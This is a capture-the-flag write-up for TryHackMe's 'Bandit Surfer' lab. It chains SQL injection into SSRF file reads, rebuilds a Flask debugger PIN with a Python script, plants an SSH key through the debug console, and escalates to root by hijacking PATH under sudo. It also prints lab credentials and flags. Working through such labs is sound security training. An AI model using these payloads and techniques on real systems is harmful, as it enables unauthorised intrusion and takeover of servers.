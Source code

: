 ```yaml
---
categories:
- Web
date: "2023-12-27"
title: "Write-up of The Bandit Surfer (SideQuest 4 of TryHackMe Advent of Cyber 2023)"
description: "Write-up of Bandit Surfer challenge, SideQuest 4 of TryHackMe Advent of Cyber 2023."
keywords: ["surfingyetiiscomingtotown", "Flask", "PIN", "code", "sqli", "pycurl", "sudo", "bashrc"]
---
```


After completing day 20 of Advent of Cyber 2023, we notice a QRCode inside one of the calendar PNG image inside the Git repository.
The QRCode links to <https://tryhackme.com/room/surfingyetiiscomingtotown>.

## Step 1: SQL injection into server-side request forgery

After starting this new machine (at `10.10.190.103` in this write-up), we discover a web server on port 8000.
This web service offers to download 3 SVG files.
The service seems to use a server-side code to hint to the browser that it should download a file.
Usually this is done using HTML `download` attributes, so there is something off.
For example, the first image links to <http://10.10.190.103:8000/download?id=1>.

This URL has a user-controllable parameter `id`. Let's try to set `id='`:
<http://10.10.190.103:8000/download?id='>.
The server answers with a server-side HTTP error 500 displaying the **Flask debugger**.
This debug page contains a MySQL exception, **some source code context** for the
exception and **an interactive Python console**.
To use the interactive Python console **we need a PIN-code**,
usually given in the Flask command-line output.

Use the source code context, we are able to retrieve the SQL query:
```python
query = "SELECT url FROM elves where url_id = '%s'" % (file_id)
```

Let's try to inject a bad `url`:
`http://10.10.190.103:8000/download?id=1' AND 1=0 UNION ALL SELECT 'http://127.0.0.1:8000/badurl' WHERE ''='`.
We get another exception and the following code extract:
```python
response_buf = BytesIO()
crl = pycurl.Curl()
crl.setopt(crl.URL, filename)
crl.setopt(crl.WRITEDATA, response_buf)
crl.perform()
crl.close()
file_data = response_buf.getvalue()

resp = Response(file_data)
resp.headers['Content-Type'] = 'image/svg+xml'
```
**The server is using Curl to fetch the URL!**

Curl can also fetch local files using the `file://` URL handler.
**We might have a primitive to get files from the server.**
As we know the path of the Python source code from the exception message, let's fetch it:
`http://10.10.190.103:8000/download?id=1' AND 1=0 UNION ALL SELECT 'file:///home/mcskidy/app/app.py' WHERE ''='`.
It works!

## Step 2: retrieving the Flask console PIN-code

Flask debugger can provide an interactive Python console if the user knows the debug PIN-code.
This PIN-code is not random.
There is already an excellent write-up by [vozec on Hackropole](https://hackropole.fr/fr/writeups/fcsc2023-web-tweedle-dum/4724154c-b0e5-49fb-8b61-06a861131b5c/) which explains how to recover the PIN-code.

We need some information to retrieve the PIN-code:

  - the username running the Flask app,
  - the path to `flask/app.py` module,
  - the output of `str(uuid.getnode())`,
  - the output of `get_machine_id()`.

We already know the username `mcskidy` and the path
`/home/mcskidy/.local/lib/python3.8/site-packages/flask/app.py` using previous
debug information.

As we have only a SSRF to fetch files from the server filesystem, let's fetch some files:

  - `http://10.10.190.103:8000/download?id=1' AND 1=0 UNION ALL SELECT 'file:///etc/machine-id' WHERE ''='`

    ```
    aee6189caee449718070b58132f2e4ba
    ```

  - `http://10.10.190.103:8000/download?id=1' AND 1=0 UNION ALL SELECT 'file:///proc/net/dev' WHERE ''='`

    ```
    Inter-|   Receive                                                |  Transmit
     face |bytes    packets errs drop fifo frame compressed multicast|bytes    packets errs drop fifo colls carrier compressed
    eth0:  188249    2299    0    0    0     0          0         0  2584267    2337    0    0    0     0       0          0
      lo:  656834     433    0    0    0     0          0         0   656834     433    0    0    0     0       0          0
    ```

  - `http://10.10.190.103:8000/download?id=1' AND 1=0 UNION ALL SELECT 'file:///sys/class/net/eth0/address' WHERE ''='`

    ```
    02:4b:aa:22:06:69
    ```

Using these information, we now know that `uuid.getnode() = 0x024baa220669`
and `get_machine_id() = b"aee6189caee449718070b58132f2e4ba"`.

We now remix Vozec script:
```python
import hashlib
from itertools import chain

probably_public_bits = [
    "mcskidy",
    "flask.app",
    "Flask",
    "/home/mcskidy/.local/lib/python3.8/site-packages/flask/app.py",
]

private_bits = [
    str(0x024BAA220669),
    b"aee6189caee449718070b58132f2e4ba",
]

num = None
rv = None

h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode("utf-8")
    h.update(bit)
h.update(b"cookiesalt")

cookie_name = f"__wzd{h.hexdigest()[:20]}"

if num is None:
    h.update(b"pinsalt")
    num = f"{int(h.hexdigest(), 16):09d}"[:9]

if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = "-".join(
                num[x : x + group_size].rjust(group_size, "0")
                for x in range(0, len(num), group_size)
            )
            break
    else:
        rv = num

print(rv)
```

Executing the script yields the PIN-code `811-299-197`.
We enter the PIN-code at <http://10.10.190.103:8000/console> and **we now have a working Python console!**

## Step 3: user takeover

Let's use the Flask Python console to add our SSH key to `mcskidy` user:
```python
import subprocess
subprocess.check_output("echo 'ssh-ed25519 <REDACTED>' >> /home/mcskidy/.ssh/authorized_keys", shell=True)
```

We can now `ssh mcskidy@10.10.190.103`.
**There is a first flag inside `mcskidy` home directory!**

Using `find -mtime` option, we notice that there is a git repository inside `/home/mcskidy/app/`.
Looking at the Git history reveals some secrets:
```diff
mcskidy@proddb:~/app$ git show HEAD~2
commit c1a0b22905cc0da0b5ad88c124125efa626013af
Author: mcskidy <mcskidy@proddb>
Date:   Thu Oct 19 20:02:57 2023 +0000

    Minor update

diff --git a/app.py b/app.py
index 8d05622..5765c7d 100644
--- a/app.py
+++ b/app.py
@@ -10,7 +10,7 @@ app = Flask(__name__, static_url_path='/static')
 # MySQL configuration
 app.config['MYSQL_HOST'] = 'localhost'
 app.config['MYSQL_USER'] = 'mcskidy'
-app.config['MYSQL_PASSWORD'] = 'F453TgvhALjZ'
+app.config['MYSQL_PASSWORD'] = 'fSXT8582GcMLmSt6'
 app.config['MYSQL_DB'] = 'elfimages'
 mysql = MySQL(app)
```

We try these secrets with `sudo -l`.

```
$ sudo -l
[sudo] password for mcskidy:
Matching Defaults entries for mcskidy on proddb:
    env_reset, mail_badpass, secure_path=/home/mcskidy\:/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mcskidy may run the following commands on proddb:
    (root) /usr/bin/bash /opt/check.sh
```

**`F453TgvhALjZ` is `mcskidy` user password!**

## Step 4: admin takeover

`sudo -l` configuration definitely does not look like the default Debian
configuration. There might be a way to takeover the admin account.

We read the script at `/opt/check.sh`.
This script starts by sourcing `/opt/.bashrc` which itself starts by disabling
the `[` Bash built-in:
```bash
enable -n [ # ]
```
This means that `[` in Bash scripts now refers to `/usr/bin/[`.

We notice that sudo `secure_path` allows to add `/home/mcskidy` to the `PATH`
environment variable.

We create `/home/mcskidy/[` script with a payload that adds our SSH key to
`/root/.ssh/authorized_keys`.
Then:
```
mcskidy@proddb:/opt$ export PATH=/home/mcskidy:$PATH
mcskidy@proddb:/opt$ sudo /usr/bin/bash /opt/check.sh
```

We can now login as root:
```
$ ssh root@10.10.152.209
Last login: Wed Dec 13 18:11:57 2023 from 10.13.4.71
root@proddb:~# l
frosteau/  root.txt  snap/  yetikey4.txt
root@proddb:~# cat root.txt yetikey4.txt
THM{BaNDiT_YeTi_Lik3s_PATH_HijacKing}
4-3f$FEBwD6AoqnyLjJ!!Hk4tc*V6w$UuK#evLWkBp
```

*Voilà!*
